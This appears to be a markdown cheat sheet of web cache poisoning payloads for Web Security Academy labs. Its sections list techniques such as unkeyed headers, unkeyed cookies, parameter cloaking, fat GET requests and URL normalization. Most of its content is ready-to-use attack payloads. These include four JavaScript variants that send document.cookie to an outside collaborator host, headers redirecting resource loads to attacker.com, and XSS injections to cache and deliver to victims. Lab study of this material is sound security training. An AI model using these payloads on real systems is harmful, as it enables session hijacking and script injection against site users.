 # Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:

```
  go to the **exploit server** ->

  in **"file"**: /recources/js/tracking.js
  in **"body"**:
  document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```

  or
  
  `fetch('http://burp.oastify.com?c=' + document.cookie, { mode: 'no-cors' });`
  
  or
  
  `location.href = 'http://burp.oastify.com?c=' + document.cookie;`
  
  or
  
```
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://burp.oastify.com?c=' + document.cookie, true);
  xhr.send();
```

![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:

``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``

## Web cache poisoning with an unkeyed cookie:

``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``

## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

```
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
```

## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.

``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``

## Web cache poisoning via an unkeyed query string

``
/?search=evil'/><script>alert(1)</script>
Origin:x
``

## Web cache poisoning via an unkeyed query parameter

``
GET /?utm_content=123'/><script>alert(1)</script>
``

## Parameter cloaking

``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``

## Web cache poisoning via a fat GET request

``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``

## URL normalization

``
/random"><script>alert(1)</script> 
``

or

``
GET /random</p><script>alert(1)</script><p>foo
``

Cache this path and then deliver URL to the victim
